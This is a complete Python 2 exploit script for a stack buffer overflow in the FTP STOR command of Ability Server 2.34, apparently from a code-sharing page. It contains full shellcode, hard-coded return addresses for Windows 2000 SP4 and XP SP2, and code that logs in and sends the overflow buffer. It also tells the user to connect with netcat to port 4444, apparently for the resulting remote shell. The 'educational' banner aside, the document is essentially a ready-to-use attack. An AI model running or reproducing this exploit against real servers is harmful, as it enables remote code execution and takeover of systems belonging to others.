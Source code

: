 ```python

import ftplib
from ftplib import FTP
import struct
print "\n\n################################"
print "\nAbility Server 2.34 FTP STOR buffer Overflow"
print "\nFor Educational Purposes Only!\n"
print "###################################"

# Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

sc = "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc += "\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc += "\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc += "\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc += "\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc += "\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc += "\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc += "\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc += "\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc += "\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc += "\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc += "\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc += "\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc += "\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc += "\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc += "\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc += "\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
# Change RET address if need be.
buffer = '\x41'*966+struct.pack('<L', 0x7C2FA0F7)+'\x42'*32+sc # RET Windows 2000 Server SP4
#buffer = '\x41'*970+struct.pack('<L', 0x7D17D737)+'\x42'*32+sc # RET Windows XP SP2
try:
# Edit the IP, Username and Password.
ftp = FTP('127.0.0.1')
ftp.login('ftp','ftp')
print "\nEvil Buffer sent..."
print "\nTry connecting with netcat to port 4444 on the remote machine."
except:
print "\nCould not Connect to FTP Server."
try:
ftp.transfercmd("STOR " + buffer)
except:
print "\nDone."
```

Screenshot Here:
